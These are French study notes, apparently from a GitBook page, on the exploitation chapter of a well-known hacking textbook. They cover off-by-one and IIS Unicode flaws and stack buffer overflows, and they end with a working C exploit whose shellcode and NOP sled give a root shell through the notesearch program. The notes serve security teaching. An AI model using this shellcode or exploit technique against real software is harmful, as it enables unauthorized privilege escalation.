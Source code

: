 # EXPLOITATION

## <mark style="color:red;">Introduction</mark>

### <mark style="color:blue;">Principe de Base</mark>

* **L'exploitation** = forcer un ordinateur à faire ce qu'on veut, même si le programme était conçu pour l'empêcher
* Les programmes suivent leurs instructions **à la lettre**, pas nécessairement l'intention du programmeur
* Les failles de sécurité sont des défauts de conception ou des oublis

### <mark style="color:blue;">Types d'Erreurs Courantes</mark>

#### Erreurs "Off-by-One" (Fencepost Errors)

* **Exemple classique** : Pour une clôture de 100 pieds avec poteaux tous les 10 pieds → il faut 11 poteaux, pas 10
* **Erreur de comptage** : confondre le nombre d'éléments avec le nombre d'espaces
* Ces erreurs passent souvent inaperçues lors des tests normaux

#### Exemple Concret : OpenSSH

* **Code bugué** : `if (id < 0 || id > channels_alloc)`
* **Code correct** : `if (id < 0 || id >= channels_alloc)`
* **Conséquence** : utilisateur normal peut obtenir des droits administrateur

### <mark style="color:blue;">Complexité = Vulnérabilité</mark>

#### Cas Microsoft IIS

* **Problème initial** : empêcher l'utilisation de `\` pour traverser les dossiers
* **Ajout Unicode** : nouvelle complexité avec `%5c` = `\`
* **Faille** : `%5c` n'était pas détecté par le code de vérification
* **Exploitation** : vers Sadmind et CodeRed

### <mark style="color:blue;">Principe Universel</mark>

* Ces concepts de "hacking" dépassent l'informatique
* **Exemple juridique** : Affaire LaMacchia (piratage sans gain financier = légal à l'époque)
* Les systèmes complexes ont toujours des failles exploitables

***

## <mark style="color:red;">Débordements de Tampon</mark>

Bien que la simplicité de C augmente le contrôle du programmeur et l'efficacité des programmes résultants, elle peut aussi résulter en des programmes vulnérables aux débordements de tampon et aux fuites mémoire si le programmeur n'est pas prudent.

{% hint style="info" %}
Cela signifie qu'une fois qu'une variable se voit allouer de la mémoire, il n'y a pas de sauvegardes intégrées pour s'assurer que le contenu d'une variable tient dans l'espace mémoire alloué. Si un programmeur veut mettre dix octets de données dans un tampon qui n'avait que huit octets d'espace alloués, ce type d'action est autorisé, même si cela causera très probablement le crash du programme. C'est ce qu'on appelle un débordement de tampon, puisque les deux octets supplémentaires de données vont déborder et se répandre hors de la mémoire allouée, écrasant tout ce qui arrive à venir ensuite. Si une donnée critique est écrasée, le programme va crasher.
{% endhint %}

### <mark style="color:blue;">overflow\_example.c</mark>

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]) {
int value = 5;
char buffer_one[8], buffer_two[8];
strcpy(buffer_one, "one"); /* Met "one" dans buffer_one. */
strcpy(buffer_two, "two"); /* Met "two" dans buffer_two. */
printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);
printf("\n[STRCPY] copying %d bytes into buffer_two\n\n", strlen(argv[1]));
strcpy(buffer_two, argv[1]); /* Copie le premier argument dans buffer_two. */
printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);
}
```

```
reader@hacking:~/booksrc $ gcc -o overflow_example overflow_example.c
reader@hacking:~/booksrc $ ./overflow_example 1234567890
[BEFORE] buffer_two is at 0xbffff7f0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7f8 and contains 'one'
[BEFORE] value is at 0xbffff804 and is 5 (0x00000005)
[STRCPY] copying 10 bytes into buffer_two
[AFTER] buffer_two is at 0xbffff7f0 and contains '1234567890'
[AFTER] buffer_one is at 0xbffff7f8 and contains '90'
[AFTER] value is at 0xbffff804 and is 5 (0x00000005)
reader@hacking:~/booksrc $
```

Notez que buffer\_one est situé directement après buffer\_two en mémoire, donc quand dix octets sont copiés dans buffer\_two, les deux derniers octets de 90 débordent dans buffer\_one et écrasent tout ce qui était là.

```
reader@hacking:~/booksrc $ ./overflow_example AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[BEFORE] buffer_two is at 0xbffff7e0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7e8 and contains 'one'
[BEFORE] value is at 0xbffff7f4 and is 5 (0x00000005)
[STRCPY] copying 29 bytes into buffer_two
[AFTER] buffer_two is at 0xbffff7e0 and contains
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] buffer_one is at 0xbffff7e8 and contains 'AAAAAAAAAAAAAAAAAAAAA'
[AFTER] value is at 0xbffff7f4 and is 1094795585 (0x41414141)
Segmentation fault (core dumped)
reader@hacking:~/booksrc $
```

Ces types de crashes de programme sont assez courants - pensez à toutes les fois qu'un programme a crashé ou fait un écran bleu sur vous. L'erreur du programmeur est une erreur d'omission - il devrait y avoir une vérification de longueur ou une restriction sur l'entrée fournie par l'utilisateur. Ces types d'erreurs sont faciles à faire et peuvent être difficiles à repérer. En fait, le programme notesearch.c de la page 93 contient un bug de débordement de tampon. Vous ne l'avez peut-être pas remarqué jusqu'à maintenant, même si vous étiez déjà familier avec C.

```
reader@hacking:~/booksrc $ ./notesearch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-------[ end of note data ]-------
Segmentation fault
reader@hacking:~/booksrc $
```

### <mark style="color:blue;">exploit\_notesearch.c</mark>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";
int main(int argc, char *argv[]) {
unsigned int i, *ptr, ret, offset=270;
char *command, *buffer;
command = (char *) malloc(200);
bzero(command, 200); // Remet à zéro la nouvelle mémoire.
strcpy(command, "./notesearch \'"); // Commence le tampon de commande.
buffer = command + strlen(command); // Met le tampon à la fin.
if(argc > 1) // Définit l'offset.
offset = atoi(argv[1]);
ret = (unsigned int) &i - offset; // Définit l'adresse de retour.
for(i=0; i < 160; i+=4) // Remplit le tampon avec l'adresse de retour.
*((unsigned int *)(buffer+i)) = ret;
memset(buffer, 0x90, 60); // Construit le NOP sled.
memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
strcat(command, "\'");
system(command); // Lance l'exploit.
free(command);
}
```

Le code source de cet exploit sera expliqué en profondeur plus tard, mais en général, il ne fait que générer une chaîne de commande qui exécutera le programme notesearch avec un argument de ligne de commande entre guillemets simples. Il utilise des fonctions de chaîne pour faire cela : strlen() pour obtenir la longueur actuelle de la chaîne (pour positionner le pointeur de tampon) et strcat() pour concaténer le guillemet simple de fermeture à la fin. Finalement, la fonction system est utilisée pour exécuter la chaîne de commande.

Le tampon qui est généré entre les guillemets simples est la vraie substance de l'exploit. Le reste n'est qu'une méthode de livraison pour cette pilule empoisonnée de données. Regardez ce qu'un crash contrôlé peut faire.

```
reader@hacking:~/booksrc $ gcc exploit_notesearch.c
reader@hacking:~/booksrc $ ./a.out
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
-------[ end of note data ]-------
sh-3.2#
```

L'exploit est capable d'utiliser le débordement pour servir un shell root - fournissant un contrôle total sur l'ordinateur. C'est un exemple d'un exploit de débordement de tampon basé sur la pile.
